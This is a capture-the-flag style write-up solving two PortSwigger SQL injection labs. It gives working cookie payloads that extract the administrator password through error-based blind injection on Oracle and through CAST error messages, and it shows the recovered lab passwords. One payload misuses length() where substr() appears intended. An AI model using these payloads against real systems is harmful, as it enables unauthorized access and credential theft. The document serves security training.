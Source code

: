 # Error-based SQL injection

## Lab's decsription

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:** log in as the `administrator` user.

We have hint: `This lab uses an Oracle database.`

Oracle's syntax: [SQL Cheatsheat](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

![](img/2.png)

Here is my cookie: `ZDhTYBxTuioKS1t5`. 

Send this to Repeater. 

Now we gonna see if the username `administrator` exits or not.

`ZDhTYBxTuioKS1t5'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'`

Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`ZDhTYBxTuioKS1t5'||(select case when (length(password) > 1) then to_char(1/0) else '' end from users where username='administrator')||'`

![](..//Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/5.png)

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/7.png)

We can see the length is different, because it does not respond the `Error` message.

After that, we will discover character-by-character for the password.

`ZDhTYBxTuioKS1t5'||(select case when (length(password,1,1) = a) then to_char(1/0) else '' end from users where username='administrator')||'`

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/4.png)

![](img/1.png)

After an hour, I got this:

`Username: administrator`

`Password:x555lejj395mk0k98nja`

**Source:** [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors#)

---

# Visible error-based SQL injection

## Lab's decsription

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password.

**End goal:** log in as the `administrator` user.

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

Here is my cookie: `b2enCQjhRAqpl6Zl`.

Firstly, modify your cookie: `b2enCQjhRAqpl6Zl' and cast((select 1) as int) --`

`CAST` to convert your data to any type you want (`int` for integer). You will get error message: `argument of AND must be type boolean, not type integer`.

Make it boolean by adding 1= before cast: `b2enCQjhRAqpl6Zl' and 1=cast((select 1) as int) --`

There is no more error. Now check `username` column in `users` table: `b2enCQjhRAqpl6Zl' and 1=cast((select username from users) as int) --`

Now your query appears to be truncated due to a character limit. Delete your original cookie: `'and 1=cast((select username from users) as int) --`

You get next error: `more than one row returned by a subquery used as an expression`. Fix it: `'and 1=cast((select username from users limit 1) as int) --`

Now you get error with the important value: `invalid input syntax for type integer: "administrator"`

Change `username` to `password`: `'and 1=cast((select password from users limit 1) as int) --`

You can get the password of administrator now! ` invalid input syntax for type integer: "0aq0xu05kj3we8izn4zp"`

**Source:** [Lab: Visible error-based SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based#)

